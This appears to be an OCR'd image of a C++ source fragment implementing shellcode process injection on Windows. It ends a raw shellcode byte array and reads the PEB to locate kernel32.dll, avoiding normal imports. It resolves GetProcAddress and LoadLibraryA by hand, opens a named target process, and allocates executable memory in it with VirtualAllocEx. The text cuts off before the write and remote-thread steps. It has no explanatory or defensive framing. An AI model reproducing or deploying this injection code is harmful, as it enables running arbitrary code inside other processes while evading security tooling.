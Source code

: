 ```cpp
  0x24, 0x1a, 0x89, 0xe1, 0x31, 0xd2, 0x52, 0x53, 0x51, 0x52, 0xff, 0xd0,
  0x31, 0xc0, 0x50, 0xff, 0x55, 0x08 };
    unsigned int p_len = sizeof(code);
 

    PEB* peb;
    PLDR_DATA_TABLE_ENTRY module;
    LIST_ENTRY* lEntry;
    HMODULE k32baseAddr = NULL;
    GETPROCADDRESS ptrGetProcAddress = NULL;
    LOADLIBRARYA ptrLoadLibraryA = NULL;
    VAExType pVAEx;
    WPMType pWPM;
    CRTType pCRT;

    
    __asm {
        mov eax, fs: [0x30]
        mov peb, eax
    }


    lEntry = peb->Ldr->InLoadOrderModuleList.Flink;
    do {
        module = CONTAINING_RECORD(lEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

        char baseDllName[256];
        int i;
        for (i = 0; i < module->BaseDllName.Length / sizeof(WCHAR) && i < sizeof(baseDllName) - 1; i++) {
            baseDllName[i] = (char)module->BaseDllName.Buffer[i];
        }
        baseDllName[i] = '\0';

        if (_stricmp(baseDllName, "kernel32.dll") == 0) {
            k32baseAddr = (HMODULE)module->DllBase;
        }

        lEntry = lEntry->Flink;
    } while (lEntry != &peb->Ldr->InLoadOrderModuleList);

    if (k32baseAddr) {
        
        LPVOID pRemoteCode = NULL;
        HANDLE hThread = NULL;
        std::wstring processName = L"Task Explorer.exe"; // Replace with your process name 32-bit
        DWORD pid = GetProcessIdByName(processName);
        if (pid) {
            printf("Process ID = %d \n", pid);
            //try to open target process
            HANDLE hProcess = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
                PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                FALSE, pid);

            if (hProcess != NULL) {
            
                ptrGetProcAddress = (GETPROCADDRESS)GetProcAddressKernel32(k32baseAddr, "GetProcAddress");
                ptrLoadLibraryA = (LOADLIBRARYA)GetProcAddressKernel32(k32baseAddr, "LoadLibraryA");
                HMODULE kernel32Base = ptrLoadLibraryA("kernel32.dll");
                pVAEx = (VAExType)ptrGetProcAddress(kernel32Base, "VirtualAllocEx");
                pRemoteCode = pVAEx(hProcess, NULL, p_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```